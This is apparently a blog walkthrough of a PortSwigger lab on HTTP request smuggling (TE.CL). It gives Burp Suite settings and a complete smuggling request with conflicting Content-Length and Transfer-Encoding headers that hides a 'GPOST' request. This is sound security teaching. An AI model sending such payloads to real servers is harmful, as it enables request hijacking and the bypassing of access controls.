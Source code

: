 ```yaml
---
title: "Lab: HTTP request smuggling, basic TE.CL vulnerability"
datePublished: Sat Aug 24 2024 10:23:46 GMT+0000 (Coordinated Universal Time)
cuid: cm07ztaog00090al59xndgwil
slug: lab-http-request-smuggling-basic-tecl-vulnerability
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1704890315891/14a8c276-8792-4870-bb01-a07b6a0dbdaa.png
tags: application-security, cybersecurity-1, websecurity, burpsuite, portswigger, handson, request-smuggling

---
```


Lab Scenario: Our mission is to explore and exploit a simulated web application's vulnerability to HTTP request smuggling. We'll use the [TE.CL](http://TE.CL) technique to manipulate the transfer encoding and content length, revealing potential security weaknesses. Let's dive into the step-by-step solution using Burp Suite:

1. **Configuring Burp Repeater:**
    
    * In Burp Suite, go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.
        
2. **Issuing the Smuggling Request:**
    
    * Using Burp Repeater, issue the following request twice:
        
        ```plaintext
        makefileCopy codePOST / HTTP/1.1
        Host: YOUR-LAB-ID.web-security-academy.net
        Content-Type: application/x-www-form-urlencoded
        Content-length: 4
        Transfer-Encoding: chunked
        
        5c
        GPOST / HTTP/1.1
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 15
        
        x=1
        0
        ```
        
    * Note: Include the trailing sequence `\r\n\r\n` following the final `0`.
        
3. **Observing the Response:**
    
    * The second response should indicate: "Unrecognized method GPOST."
        

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1704982347342/3686bb23-fb32-455e-8ff0-180c9f344cda.png align="center")

**Conclusion**: This lab exercise provides hands-on experience in exploiting a basic [TE.CL](http://TE.CL) vulnerability, showcasing the potential risks associated with HTTP request smuggling. By following this step-by-step guide, users can enhance their understanding of how attackers manipulate transfer encoding and content length to smuggle malicious requests. Stay informed, keep learning, and continue exploring the dynamic field of cybersecurity to contribute to a more secure online environment.

**Reference:**

[https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl](https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl)
